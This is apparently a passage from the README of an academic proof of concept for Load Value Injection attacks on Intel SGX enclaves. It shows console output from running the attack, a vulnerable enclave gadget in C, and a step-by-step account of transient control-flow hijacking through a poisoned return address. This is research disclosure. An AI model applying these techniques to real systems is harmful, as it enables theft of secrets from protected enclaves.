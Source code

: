 ```$ make run
Flush+Reload Threshold: 226
[sched.c] continuing on CPU 1
[main.c] Creating enclave...
==== Victim Enclave ====
[pt.c] /dev/sgx-step opened!
    Base:   0x7fbdd4800000
    Size:   8388608
    Limit:  0x7fbdd5000000
    TCS:    0x7fbdd4cc4000
    SSA:    0x7fbdd4cc5f48
    AEP:    0x7fbdd6fd4845
    EDBGRD: debug
[main.c] oracle at 0x562f1127b000
[main.c] user_page at 0x562f1137b000
[main.c] enclave_page_a at 0x7fbdd4a20000 w PTE
[pt.c] /dev/mem opened!
+-------------------------------------------------------------------------------------------+
| XD | PK | IGN | RSVD | PHYS ADRS      | IGN | G | PAT | D | A | PCD | PWT | U/S | R/W | P | 
| 0  | x  | x   | 0    | 0x000070676000 | x   | x | x   | 1 | 1 | x   | x   | 1   | 1   | 1 | 
+-------------------------------------------------------------------------------------------+
[main.c] enclave_page_b at 0x7fbdd4a1f000 w PTE
+-------------------------------------------------------------------------------------------+
| XD | PK | IGN | RSVD | PHYS ADRS      | IGN | G | PAT | D | A | PCD | PWT | U/S | R/W | P | 
| 0  | x  | x   | 0    | 0x000070677000 | x   | x | x   | 1 | 1 | x   | x   | 1   | 1   | 1 | 
+-------------------------------------------------------------------------------------------+
A A A A A A A A A A A A A A A A A A A A A A A A A A A A A A A A A A A A A A A A A A A A A A A A A 
```

## LVI-SB-ROP: Transient control flow hijacking

Consider the minimal example code gadget below:

--------------------------------------------------------------------------------
```C
1 void ecall_lvi_store_user(uint64_t *user_pt, uint64_t user_val, char *oracle)
2 {
3   *user_pt = user_val;    /* VICTIM STORE: write user-controlled value to extra-enclave user memory */
4   return;                 /* VICTIM LOAD: inject from user store 4K alias (i.e., control flow hijack) */
6 }
```
--------------------------------------------------------------------------------

**Attack procedure.** We again rely on an attacker-controlled user pointer
dereference inside the enclave. Where the above LVI variant faulted on user
memory loads, we now provoke page faults on legitimate enclave memory load
instructions.  Specifically we require that the enclave first stores a
(user-controlled) value to a user-controlled untrusted address (line 3).
Subsequently, the enclave "return" statement performs a _legit_ load from the
enclave stack (line 4) and uses that value as a trusted return address to
redirect control flow.
